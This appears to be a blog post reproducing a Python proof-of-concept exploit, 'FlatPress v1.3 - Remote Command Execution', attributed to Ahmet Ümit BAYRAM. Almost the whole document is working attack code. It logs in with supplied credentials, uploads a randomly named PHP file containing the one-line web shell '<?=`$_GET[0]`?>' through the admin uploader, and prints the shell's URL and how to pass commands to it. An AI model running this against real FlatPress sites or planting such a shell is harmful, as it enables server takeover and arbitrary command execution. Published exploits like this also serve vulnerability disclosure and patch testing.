 ```yaml
---
layout: post
title: FlatPress v1.3 - Remote Command Execution
date: 2024-05-25
category: exploit
---
```


# Exploit Title: FlatPress v1.3 - Remote Command Execution
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 19.04.2024
# Vendor Homepage: https://www.flatpress.org
# Software Link: https://github.com/flatpressblog/flatpress/archive/1.3.zip
# Tested Version: 1.3 (latest)
# Tested on: MacOS

import requests
import time
import random
import string

def random_string(length=5):
    """Rastgele bir string oluşturur."""
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(length))

def login_and_upload(base_url, username, password):
    filename = random_string() + ".php"
    login_url = f"http://{base_url}/login.php"
    upload_url = f"http://{base_url}/admin.php?p=uploader&action=default"

    with requests.Session() as session:
        # Exploiting
        print("Exploiting...")
        time.sleep(1)

        # Giriş yapma denemesi
        login_data = {
        'user': username,
        'pass': password,
        'submit': 'Login'
        }
        print("Logging in...")
        response = session.post(login_url, data=login_data)
        time.sleep(1)

        if "Logout" in response.text:
            print("Login Successful!")
        else:
            print("Login Failed!")
            print(response.text)
            return

        # Dosya yükleme denemesi
        print("Shell uploading...")
        time.sleep(1)

        # Form verileri ve dosyalar
        files = {
        'upload[]': (filename, '<?=`$_GET[0]`?>', 'text/php'),
        }
        form_data = {
        '_wpnonce': '9e0ed04260',
        '_wp_http_referer': '/admin.php?p=uploader',
        'upload': 'Upload'
        }

        response = session.post(upload_url, files=files, data=form_data)

        if "File(s) uploaded" in response.text or "Upload" in response.text:
            shell_url = f"http://{base_url}/fp-content/attachs/{filename}"
            print(f"Your Shell is Ready: {shell_url}")
            time.sleep(1)
            print(f"Shell Usage: {shell_url}?0=command")
        else:
            print("Exploit Failed!")
            print(response.status_code, response.text)

# Örnek kullanım: python script.py siteadi.com username password
if __name__ == "__main__":
    import sys
    if len(sys.argv) != 4:
        print("Usage: script.py <base_url> <username> <password>")
    else:
        base_url, username, password = sys.argv[1:]
        login_and_upload(base_url, username, password)
            